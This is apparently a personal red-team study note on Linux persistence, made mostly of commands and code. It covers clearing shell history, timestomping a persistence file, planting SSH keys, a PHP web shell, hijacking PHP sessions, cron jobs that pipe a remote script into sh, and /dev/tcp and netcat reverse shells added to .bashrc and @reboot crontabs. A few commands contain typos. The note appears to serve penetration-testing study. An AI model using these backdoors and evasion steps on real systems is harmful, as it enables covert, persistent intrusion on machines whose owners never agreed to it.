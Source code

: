 # Linux Persistence

For general overview of persistance that OS neutral: [[Persistence]].

## Stealth 
```bash
unset HISTFILE         # disable writing to history file
```

#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with touch cp the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```


## Backdoors required?
Reference:[airman604](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

## ssh keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
```
# 
chmod 600 id_rsa
```

## php
web root /var/www/html
`touch shell.php` and add the below:
Or add within a file of this directory
Change the 'cmd' paramtre to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

## cronjob
```bash
CT=$(crontab -l)
CT=$CT$'\n* *     * * *   root    curl http://<ip>:<port>/run | sh'
printtf "$CT | cronbtab -
```
Serve shell script, for example:
file
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)